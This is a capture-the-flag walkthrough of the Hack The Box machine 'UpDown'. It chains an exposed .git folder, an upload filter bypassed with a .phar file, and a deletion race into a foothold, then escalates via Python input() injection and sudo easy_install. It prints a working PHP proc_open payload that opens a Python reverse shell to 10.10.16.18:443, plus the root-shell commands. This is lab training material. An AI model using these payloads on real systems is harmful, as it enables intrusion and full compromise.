# Overview

- Name: UpDown
- OS: Linux
- Difficulty: **<span style="color:yellow">Medium</span>**

# Enumeration

First I started with a full port scan using `Nmap`. 
```bash
nmap -p- -sV -sC -oA nmap/tcp --min-rate=1000 -v 10.10.11.177
Nmap scan report for 10.10.11.177
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Is my Website up ?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# Nmap done at Fri Jun 28 22:04:51 2024 -- 1 IP address (1 host up) scanned in 89.55 seconds
```

Only two ports open, so let's check what this webserver is running.


> _Figure 1_: **Homepage of the site.**

Seems to be a site that the main functionality is been vulnerable to *SSRF*. As I don't have much ideas to what to do with a SSRF I move forward with the enumeration. Note that in the buttom of the homepage I site shows the virtual host `siteisup.htb` but opening it give me the same page, so I started a vhost bruteforce with `ffuf`.
```bash
ffuf -w $subt5 -u http://10.10.11.177/ -H 'Host: FUZZ.siteisup.htb' -fs 1131
```

And After some seconds running I found the vhost `dev.siteisup.htb` but when trying to open it return a 'Access Denied' error. My first thought as using the _SSRF_ of the first page to read the contents of `dev.siteisup.htb`, but it continues to return 'Access Denied' even if is the Webserver IP making the request. So, I take a step back and start a diretory bruteforce on both vhosts using the `feroxbuster` tool.
```bash
feroxbuster -w $smallw -u http://siteisup.htb
feroxbuster -w $smallw -u http://dev.siteisup.htb
```


# Foothold

The diretory bruteforcing returns some more results but the more intesting one is the directory `http://siteisup.htb/dev/.git`. I found have a **public .git** exposed on the website!, let's use the tool `git-dumper` to download the folder to my machine.

::github{repo='arthaud/git-dumper'}

```bash
❯ git-dumper http://siteisup.htb/dev git
❯ cd git
❯ git checkout main
❯ ls -la 
total 40
drwxrwxr-x 3 isnipe isnipe 4096 Jul  3 16:54 .
drwxrwxr-x 5 isnipe isnipe 4096 Jul  8 18:07 ..
drwxrwxr-x 7 isnipe isnipe 4096 Jul  8 18:37 .git
-rw-rw-r-- 1 isnipe isnipe  117 Jun 28 22:10 .htaccess
-rw-rw-r-- 1 isnipe isnipe   59 Jul  3 16:40 admin.php
-rw-rw-r-- 1 isnipe isnipe  147 Jun 28 22:14 changelog.txt
-rw-rw-r-- 1 isnipe isnipe 3145 Jul  3 16:54 checker.php
-rw-rw-r-- 1 isnipe isnipe  273 Jun 28 22:14 index.php
-rw-rw-r-- 1 isnipe isnipe 5531 Jun 28 22:10 stylesheet.css
```

Reading the content of the file `.htaccess` I discovery that the webserver on `dev.siteisup.htb` will ony responde if the request have a special header, Like demostrated at _Figure 2_ and _Figure 3_.


> _Figure 2_: **Contents of file '.htaccess'.**


> _Figure 3_: **Webserver accepting the request with the Custom Header.**

I made the follow _Match & Replace_ rule in Caido proxy, and open the site on my browser.


> _Figure 4_: **Rule to added the Header in all request to the vhost.**


> _Figure 5_: **'dev' page on the browser.**

Now we have access to a new functionality that uploads files to the server. I thought that will be easy to upload a php reverse shell because we have access to the source code of the application, but it as not that simple!

## The File upload 
Let's check what I have to bypass to upload a php reverse shell.

> checker.php:
```php
55 if($_POST['check']){
56                                                                                          
57   # File size must be less than 10kb.                                                    
58   if ($_FILES['file']['size'] > 10000) {                                                 
59   │ │ │ die("File too large!");                                                          
60   │ }                                                                                    
61   $file = $_FILES['file']['name'];                                                       
62                                                                                          
63   # Check if extension is allowed.                                                       
64   $ext = getExtension($file);                                                            
65   if(preg_match("/php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar/i",$ext)){           
66   │ die("Extension not allowed!");                                                       
67   }
```

Seems that my file needs to be lower than *10kb* and not contain any of the extension of the line __65__, The more obvious thing to try is uploading a file with the name 'revshell.pHp' but this will not work because the `preg_match` function is specified to ignore case when ended with `/i` on line __65__.
::github{repo=HackTricks-wiki/hacktricks}

Opening the HackTricks-wiki and searching for file upload I found the following line:
> **PHP**: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module </br>
        **Working in PHPv8**: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp

So let's get all this extensions and see what will **not matching** that regex.

```bash
❯ echo '.php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp' | \
tr ',' '\n' | \
grep -Evi 'php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar'
 .pht
 .phtm
 .pgif
 .htaccess
 .phar
 .inc
 .ctp
 .module
 .inc
 .ctp
```

I have 10 different options of extensions to try upload to the site and get php code executed. But I have another problem, I need to open the file to execute the code inside it, let's analise the code to find it.

```php
69   # Create directory to upload our file.                               
70   $dir = "uploads/".md5(time())."/";                                   
71   if(!is_dir($dir)){                                                   
72   │ │ │ mkdir($dir, 0770, true);                                       
73   │ }                                                                  
74                                                                        
75   # Upload the file.                                                   
76   $final_path = $dir.$file;                                            
77   move_uploaded_file($_FILES['file']['tmp_name'], "{$final_path}");
```

Our file seams to be stored inside the `uploads/` folder followed by a subfolder named with a MD5 hash of the current timestamp and finally the filename that we gave when uploading. The _MD5_ hash will be really enoying to find each time but I as saved because the `uploads/` is a **directory listing** that show me all the subfolder inside it! </br>

Now seams all good to send the __PentestMonkey PHP Webshell__ named as 'rev.phar' and get a reverse connection, but when I send the file and opening the new directory created there **isn't** a file inside it :(. 

So, I start analylise the code again to see what happen to the file we just uploaded, and found the follow snnipet of code on file `checker.php`:

```php
35 function isitup($url){                                           
36   $ch=curl_init();                                               
37   curl_setopt($ch, CURLOPT_URL, trim($url));                     
38   curl_setopt($ch, CURLOPT_USERAGENT, "siteisup.htb beta");      
39   curl_setopt($ch, CURLOPT_HEADER, 1);                           
40   curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);                   
41   curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);                   
42   curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);                   
43   curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);                   
44   curl_setopt($ch, CURLOPT_TIMEOUT, 30);                         
45   $f = curl_exec($ch);                                           
46   $header = curl_getinfo($ch);                                   
47   if($f AND $header['http_code'] == 200){                        
48   │ return array(true,$f);                                       
49   }else{                                                         
50   │ return false;                                                
51   }                                                              
52   │ curl_close($ch);                                             
53 }
```
```php
82   foreach($websites as $site){
83   │ $site=trim($site);
84   │ if(!preg_match("#file://#i",$site) && !preg_match("#data://#i",$site) && !preg_match("#ftp://#i",$site)){
85   │ │ $check=isitup($site);
86   │ │ if($check){
87   │ │ │ echo "<center>{$site}<br><font color='green'>is up ^_^</font></center>";
88   │ │ }else{
89   │ │ │ echo "<center>{$site}<br><font color='red'>seems to be down :(</font></center>";
90   │ │ }
91   │ }else{
92   │ │ echo "<center><font color='red'>Hacking attempt was detected !</font></center>";
93   │ }
94   }
95   
96   # Delete the uploaded file.
97   @unlink($final_path);
98 }
```
In the  line _97_ the file I uploaded are deleted after sending a request using the function `isitup`. So every time I send a file the upload it, made a request and after the request return the file got deleted! Analising this function I found on line _44_ that the request get a 30 seconds timeout. So to bypass this and I get time to execute the payload I need to input first on the file a URL that will not return anything like `https://google.com` because the HTB VPN isn't connect to the internet.

So now we are good to upload the revshell right? No, not yet. I uploaded the __PentestMonkey__ php revShell but it don't return any connections back. So I start testing if the `.phar` is really executing the php code, so I upload a `<?php echo 'HELLO word!!!!!'; ?>` and it worked fine.


> _Figure 6_: **'Hello word' on the page.**

So if it is executing the php code why our reverse shell don't work? Maybe some functions are disable? Let's check this with the `phpinfo` page.
> payload.phar:
```php
https://google.com
https://google.com
https://google.com

<?php phpinfo(); ?>
```


> _Figure 7_: **List of all disable functions.**

Reading all functions that are disable, the most intesting one that ins't on the list is `proc_open` that let execute remote code on the victim machine. I made the follow payload to finally get a reverse shell:

> revshell.phar
```php
http://google.com
http://google.com
http://google.com
http://google.com
http://google.com

<?php

$descriptorspec = array(
    0 => array("pipe", "r"),  // stdin
    1 => array("pipe", "w"),  // stdout -> we use this
    2 => array("pipe", "w")   // stderr 
);

$process = proc_open("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.16.18\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"bash\")'",$descriptorspec,$pipes)

?> 
```

> _Figure 8_: **Receivering a reverse connection as user 'www-data'.**

# User Flag

After enumeration a bit I read the contents of the file on `/home/developer/dev/siteisup_test.py`:
```python
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
    print "Website is up"
else:
    print "Website is down"
```

And doing some research I found out that is possible to execute the following code on the unsanitized _input_ function: `__import__("os").system("/bin/bash")`.


> _Figure 9_: **Executing code as user 'developer'.**

But when I tried to read the _user.txt_ file it returns a **"Permissmion denied"** error, whatever I was able to read the contents of the __'.ssh/id_rsa'__ file as demostrated on __Figure 10__ , connect to the SSH as developer and finally read the contents of the _user.txt_ flag.


> _Figure 10_: **Reading the id_rsa file.**

# Privilege escalation

After connect to the SSH I ran the command `sudo -l` that reveled the following permissons: 
```bash
$ sudo -l
...
    (ALL) NOPASSWD: /usr/local/bin/easy_install

```

This means that I could run the file `/usr/local/bin/easy_install` as root without any passwords. So, let's check what this files does.
__easy_install__:
```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
import re
import sys 
from setuptools.command.easy_install import main
if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())

```

We is using the __main__ funtion from the __easy_install__ lib. Research a little bit I found that easy_install have his own page on [GTFOBins](https://gtfobins.github.io/gtfobins/easy_install/). Opening the page and running the following commands we get a root shell.
```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```
And finally I could get the root flag as show in __Figure 11__.


> _Figure 11_: **Getting a root shell.**

This machine took me an average of 6 Hours to complete, so some details have been lost in my mind, so if you find any errors or misinformation please reach me out on X **@i5nipe**. Thanks for reading :).
